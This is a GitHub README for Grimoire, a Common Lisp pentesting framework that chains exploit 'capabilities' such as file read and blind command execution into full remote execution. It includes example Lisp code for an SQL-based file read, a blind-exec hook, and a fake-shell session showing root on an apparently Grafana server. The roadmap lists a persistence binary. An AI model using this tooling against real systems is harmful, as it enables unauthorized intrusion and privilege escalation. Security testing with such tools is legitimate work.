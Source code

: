# Grimoire

Grimoire is a collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation.

It also includes tools to make the implementation of exploit POCs easier.

## Screenshots

![image](https://github.com/user-attachments/assets/ea321379-a96f-40e6-a285-7cf5c9af0955)

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
(ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
(in-package :grimoire)
```
    
## Concepts

- **Capability**: Created using `define-capability`. They expose some type of operation to the framework such as reading files, blind code execution or file uploads.

- **Recipes**: Created using `define-recipe`. They use the capabilities available to do interesting or useful operations on the system. For example, the recipe `download-all` allows the user to download all files in a given remote path if the capacity to execute code is available to Grimoire.
    
- **Derivations**: Created using `define-derivation`. They allow Grimoire to derive new capabilities from already implemented ones. For example, if you have both the read and blind execution capabilities, you will be able to derive the sighted execution through a derivation.
    
- **Loot**: Managed through the functions starting with `loot/*`. You can save loot by passing a key and a value, retrieve it by passing a key only or listing the loot available by calling the function without parameters.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `my-read-exploit` that reads files from the remote server:

```lisp
(define-capability :read my-read-exploit (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (planning/query
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of functions that you can use to progress further, for example:

```lisp
* (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

* (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another capability to do blind execution of code:

```lisp
(define-capability :blind-exec planning (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current capabilities:
```lisp
(:READ :BLIND-EXEC)
```
    
Running `derivation/list` will yield:
```lisp
[+] Derivation "LET-THERE-BE-LIGHT"
    Runnable? [YES] (needs :READ, :BLIND-EXEC)
    Needed?   [YES] (provides :EXEC)

[+] Derivation "CAT"
    Runnable? [NO] (needs :EXEC)
    Needed?   [NO] (provides :READ)
```
    
So lets run the first derivation in the REPL:
```lisp
GRIMOIRE> (derivation/run :let-there-be-light)
[+] Added new capability: :EXEC
```

So lets test it with the `fake-shell` recipe:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```

## Roadmap

In no particular order:

- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add write utilities to Grimoire.
- [x] Add execute utilities to Grimoire.
- [ ] Add a more precise way of expressing capabilities and not just `:read`, `:write` and `:execute`.
- [ ] Add a graph like representation of capabilities and how they can be chained together.
- [ ] Add a way to easily share capabilities with other users.
- [ ] Add some kind of database to store loot and other stuff.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing maybe.
- [x] Add a deployable binary for persistance.
